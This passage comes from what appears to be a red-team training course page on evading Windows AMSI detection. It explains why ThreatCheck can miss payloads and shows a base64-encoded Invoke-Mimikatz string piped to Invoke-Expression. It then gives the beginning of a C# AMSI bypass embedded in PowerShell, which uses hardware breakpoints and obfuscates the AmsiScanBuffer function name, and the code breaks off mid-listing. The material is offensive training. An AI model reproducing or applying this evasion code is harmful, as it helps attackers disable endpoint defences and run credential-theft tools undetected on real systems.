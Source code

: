 You may run into situations where ThreatCheck gives the "all clear" on a payload, but it still gets caught by AMSI.  This is particularly troublesome for initial access or lateral movement payloads, because Beacon's `amsi_disable` directive does not apply to them.
![](https://files.cdn.thinkific.com/file_uploads/584845/images/8fe/08a/370/tc.png)

![](https://files.cdn.thinkific.com/file_uploads/584845/images/461/4a0/9d7/amsi.png)

There are two common reasons for this.  The first is that the Defender engine/signature versions differ between our attacking workstation and the target.  The second is that the malicious part of the payload may be buried under one or more layers of execution.  ThreatCheck can only scan the "top level" of a provided sample, it cannot emulate the layers of execution that will occur inside the PowerShell engine.  Here is a simple example to illustrate.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/1b3/e19/6dc/invoke-mimi.png)  

The information that ThreatCheck submits to AMSI is the literal string `'[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("SQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoA")) | iex'`.  This comes back as clean because the content doesn't match any known signatures.  However, when executed, AMSI blocks it because the string `"Invoke-Mimikatz"` is signatured.  The difference is that the PowerShell engine will re-scan the content being piped to Invoke-Expression, which is no longer in it's base64 encoded form.  This is a behaviour that ThreatCheck cannot replicate.

To help get around this, we can integrate an external AMSI bypass into our payloads.  For example, this method by [@_EthicalChaos_](https://twitter.com/_EthicalChaos_) (modified by [@ShitSecure](https://twitter.com/ShitSecure)) which utilises hardware breakpoints.
```cs
$HWBP = @"
using System;
using System.Collections.Generic;
using System.Linq.Expressions;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

namespace HWBP
{
    public class Amsi
    {
        static string a = "msi";
        static string b = "anB";
        static string c = "ff";
        static IntPtr BaseAddress = WinAPI.LoadLibrary("a" + a + ".dll");
        static IntPtr pABuF = WinAPI.GetProcAddress(BaseAddress, "A" + a + "Sc" + b + "u" + c + "er");
        static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(WinAPI.CONTEXT64)));
        
        public static void Bypass()
        {
            WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64();
            ctx.ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL;

            MethodInfo method = typeof(Amsi).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
            IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
            
            Marshal.StructureToPtr(ctx, pCtx, true);
            bool b = WinAPI.GetThreadContext((IntPtr)(-2), pCtx);
            ctx = (WinAPI.CONTEXT64)Marshal.PtrToStructure(pCtx, typeof(WinAPI.CONTEXT64));

            EnableBreakpoint(ctx, pABuF, 0);
            WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
```